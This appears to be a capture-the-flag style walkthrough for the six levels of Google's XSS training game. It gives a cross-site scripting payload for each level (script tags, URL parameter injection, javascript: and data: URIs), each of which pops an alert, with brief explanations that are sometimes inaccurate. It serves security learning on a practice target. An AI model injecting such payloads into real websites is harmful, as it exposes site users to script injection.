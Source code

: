 
**Level1**
```javascript
<script>
    alert("Hello, this is a JavaScript alert!");
</script>

```
This code displays a JavaScript alert

**Level2**
```html
<div>
    Welcome!<onerror="javascript:alert('This is an injected alert!')">
</div>
```
This code displays the text "Welcome!" inside a `<div>` that includes an `onerror` attribute, which is triggered when an error occurs in the element. In this case, it executes an alert.

**Level3**
```html
https://xss-game.appspot.com/level3/frame#2'/><script>alert('doneee')</script>
```

This code executes a script that executes an alert.

**Level4**
```html
https://xss-game.appspot.com/level4/frame?timer=1')%alert('1
```

This code uses the variable timer to inject an alert.

**Level5**
```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('and another one')
```

This code is injecting JavaScript code directly in the variable next executing an alert.

**Level6**
```html
https://xss-game.appspot.com/level6/frame#data:plain,alert('Lets GOOOO')
```

This code includes a fragment identifier (`#`) followed by a data that has a plain text containing an alert.